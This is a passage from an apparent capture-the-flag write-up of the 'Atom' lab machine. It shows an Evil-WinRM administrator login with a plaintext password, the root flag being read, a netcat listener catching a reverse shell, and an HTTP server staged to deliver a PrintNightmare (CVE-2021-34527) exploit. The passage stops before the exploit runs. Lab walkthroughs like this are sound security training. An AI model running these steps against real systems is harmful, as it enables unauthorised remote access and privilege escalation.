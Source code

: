 [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) works to get a shell:

```

oxdf@parrot$ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

And the flag:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
0e7896dd************************

```

## Beyond Root - PrintNightmare

Atom is vulnerable to CVE-2021-34527, or PrintNightmare. I show various POCs in [this post](/2021/07/08/playing-with-printnightmare.html), but I can show it quickly here as well.

I’ll catch the shell as jason from the Electron exploit, and switch to PowerShell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 54371
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
atom\jason

C:\WINDOWS\system32>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> 

```

I’ll start a webserver in the [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675) directory on my host:

```

oxdf@parrot$ ls
CVE-2021-1675.ps1  nightmare-dll  README.md
oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
